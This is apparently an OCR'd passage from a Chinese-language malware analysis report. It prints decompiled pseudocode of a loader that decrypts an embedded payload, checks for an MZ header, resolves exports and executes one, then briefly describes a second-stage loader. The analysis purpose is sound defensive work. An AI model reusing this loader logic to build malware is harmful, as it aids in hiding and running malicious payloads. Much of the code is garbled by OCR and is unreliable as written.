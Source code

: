 $v26=*(\lor42-133)$   
buffer2 ${}={}$ LocalAlloc(0x40u, v26);   
memset(buffer2, 0, v26);   
memmove(buffer2, &buffer[FileSize_ - v26 - v20 - 532], v26);   
sub_14000c080(v43，key,key);   
sub_14000C210(v43，buffer2，buffer2，v26);//解密   
v28 = \*buffer2 $\underline{{\wr}}\quad==$ 'ZM' ? loadAndExecuteDynamicCode(v37, buffer2,buffer2）: 0i64; v29 = -1i64;   
do   
++v29;   
while（WideCharStr[v29] );   
WideCharToMultiByte(0,0x200u,WideCharStr,-1, MultiByteStr,v29,0i64, 0i64); $\vee3\Theta~=~-1\mathrm{i}64$   
do   
++v30;   
while （ Destination[v30] );   
WideCharToMultiByte(0,0x200u,Destination,-1,v48,v30,0i64,0i64);   
v31 = v28[1];   
if （!\*(\*v28 + 140i64))   
return 1i64;   
$\vee32~=~\left(\vee31~+~^{*}\left(^{*}\vee28~+~136{\i}64\right)\right){}_{;}$   
if（!v32[6] 丨l!v32[5]）   
return 1i64;   
$\mathsf{v}33=\left(\mathsf{v}31+\mathsf{v}32[8]\right);$   
v34 = (v31 + v32[9]);   
while（ stricmp(MultiByteStr,（ $(\vee31+*\vee33)$ ））   
{   
LODWORD $\left(\vee1\right)~=~\vee1~+~1$   
WideCharToMultiByte(0, 0x200u,Destination,-1, v48, v30, 0i64, 0i64)   
v31 = v28[1];   
if （!\*(\*v28 + 140i64)) return 1i64;   
$\times32=(\vee31+*(*_{\vee28}+136\bot64))$   
if ( !v32[6] 11 !v32[5] ) return 1i64;   
v33 = (v31 + v32[8]);   
$\mathsf{v}34~=~\left(\mathsf{v}31~+~\mathsf{v}32[9]\right)$   
while （ stricmp(MultiByteStr，( $(\lor31+*\lor33$ ））   
{ LODWORD $(\vee1)=\vee1+1$ ++v33; ++v34; if （ v1 >= v32[6] ) return 1i64;   
v35 = \*v34;   
if（v35 >v32[5] ) return 1i64;   
v36 = (v31 + \*(v31 + v32[7] + 4 \* v35));   
if（!v36) return 1i64;   
v36(v48); //执行导出函数   
Sleep(0x7D0u);   
return v22;  

#### 第二阶段Loader  

在第二阶段，相关样本继续采用之前描述的相同解密方法。它使用特定的密钥对数据段中的加密数据进行解密。此步骤完成后，样本随即调用其导出函数，以执行嵌入其中的恶意代码。  

![](https://cdn-mineru.openxlab.org.cn/extract/7d801c0b-c0eb-45af-b8ad-72070507f6df/217f12171cbee6c8c6d4a4775b61aee876a8af7ed9bc4e956fee72db75467782.jpg)  
图8执行导出函数  
